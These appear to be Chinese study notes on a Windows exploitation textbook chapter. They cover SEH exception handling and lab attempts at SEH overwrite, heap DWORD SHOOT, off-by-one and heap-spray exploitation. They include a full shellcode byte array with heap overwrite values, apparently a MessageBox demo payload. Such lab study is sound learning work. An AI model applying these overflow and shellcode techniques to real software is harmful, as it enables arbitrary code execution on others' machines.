





# notes about chapter 6
## from 6.1
Windows针对异常会使用异常处理结构体SEH：  

|Dword:Next SEH Header（低地址）|SEH链表指针|
|------------------------|-------|
|Dword:Exception Handler（高地址）|异常处理函数句柄|

有关SEH的一些概念：
1. SEH结构体存放在系统栈中。
2. 当线程初始化，会向栈中安置一个SEH，作为线程的默认异常处理。
3. 如果程序源代码中使用了__try{}__except{}或者Assert 宏等异常处理机制，编译器将最终通过向当前函数栈帧中安装一个S.E.H 来实现异常处理。
4. 栈中会有多个SEH。
5. 栈中的多个SEH通过链表指针在栈内由栈顶向栈底串成单向链表，链表顶端的SEH通过TEB 0字节的偏移的指针标识。
6. 当异常发生时，操作系统会中断程序，并首先从T.E.B 的0 字节偏移处取出距离栈顶最近的S.E.H，使用异常处理函数句柄所指向的代码来处理异常。
7. 当离“事故现场”最近的异常处理函数运行失败时，将顺着S.E.H 链表依次尝试其他的异常处理函数。
8. 当程序安装的所有SEH都处理不了，就使用（2中所述）默认的SEH，这时一般就会弹出错误对话框。  



由于SEH位于栈中，所以在有溢出的漏洞时，我们可以覆盖handle的address为shellcode的起始地址，而溢出后错误的栈桢或者堆块会触发异常，此时就会执行shellcode。

### exp in P205
这里的栈桢中的SEH：  



这里我们的shellcode距离SEH的handle的地址为：212。  
填充完成后堆栈：  
  
  
可以看到我们已经把处理函数的地址覆盖为shellcode的起始地址了。然而我的win2003 server实验机没有出现弹窗，即win2003 server中加入了对SEH的安全校验，因此会导致实验失败。

### exp in 209
此时shellcode在堆块中的地址为0x00390688：  
  
shellcode构造如下:  
```
char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x16\x01\x1A\x00\x00\x10\x00\x00"// head of the ajacent free block
"\x88\x06\x39\x00"//0x00390688 is the address of shellcode in first
//Heapblock
"\x90\x90\x90\x90";//target of DWORD SHOOT
```

这里的shellcode的块的起始地址为0x00390688，所以下一个堆块的块首地址就是0x00390688+200+8=0x00390750，flink的地址为0x00390750+8=0x00390758，blink地址为0x00390758+8=0x00390760：  
  

将flink地址填充为shellcode起始地址，将blink暂定为0x90909090，调试以后填为SEH的地址，这样就可以将shellcode地址填入SEH地址中，当异常产生，将调用shellcode。  

然后根据文档继续调试，到这里看到栈顶的SEH地址：  


将blink地址填充为该地址，将int3去除，重新编译成release运行就可以看到弹窗跳出，这里由于是win2003，故实验失败。  

异常处理流程总体如下：
1. 首先使用栈顶的SEH中的handle去处理。
2. 失败了根据SEH链表一次执行后续的异常处理函数。
3. 都没有处理成功的话，执行**进程**中的异常处理。
4. 都失败了，系统默认的异常处理被调用，程序奔溃出现对话框。

异常处理函数一般有两个返回值：
1. 返回值为0：异常处理成功，返回原程序发生异常的地方，继续执行后续的指令。
2. 返回值为1：异常处理失败，顺着SEH继续尝试处理异常。

线程异常处理中的unwind操作：当顺着SEH找到合适的处理句柄时，系统将会对已经遍历过的SEH中的异常处理函数再调用一遍，目的是“通知”前边处理异常失败的SEH，系统已经准备将它们“遗弃”了，请它们立刻清理现场，释放资源，之后这些SEH结构体将被从链表中拆除。这可以避免当程序继续进行时，一系列的压栈操作后，前面的SEH被破坏，此时再发生异常，仍然会从前面的SEH开始寻求方法，这时候就可能发生错误。

线程发生的异常没有被线程的异常处理函数或者调试器处理，会最终交付给进程中的异常处理函数处理。进程中的异常处理函数得返回值：  
1. 返回值为1：错误得到正确处理，程序**退出**。
2. 返回值为0：无法处理错误，错误交付给系统默认异常处理。
3. 返回值为-1：错误得到正确处理，程序将继续进行。

当进行异常处理函数都无法处理时，系统默认的异常处理函数UnhandledExceptionFilter()会被调用，即所谓的UEF。这里windows相关的UEF配置一般就在注册表HKLM\SOFTWARE\Microsoft\WindowsNT\
CurrentVersion\AeDebug中配置。win10在\计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AeDebug中配置。

## from 6.2
offbyone：
```
void off_by_one(char * input)
{
    char buf[200];
    int i=0,len=0;
    len=sizeof(buf);
    for(i=0; input[i]&&(i<=len); i++)
    {
    buf[i]=input[i];
}
    ……
}
```  
这里的代码产生了数组越界，使得我们可以控制一个字节的地址。如果缓冲区的后面就是EBP，那我们就可以控制EBP的最后一个字节，从而在[0,255]（[0x00,0xFF]）的范围内移动EBP，然后劫持到shellcode的地方即可。

这里调试了下，本来的想法就是将ebp劫持到shellcode某个地方，然后后面接shellcode起始地址为EIP，调试后发现只修改一个字节是劫持不到的：  


可以看到再加一个字节的data也远到不了ebp的位置。

## from 6.3
调试结果如下：  
  
运行后，虚函数定位到了0x0040881C，也就是shellcode的起始地址：  
  

## from 6.4
简单来说就是用nop区域覆盖掉0x0C0C0C0C，然后当EIP运行到这里的时候，就会继续往下走，走到shellcode的地方。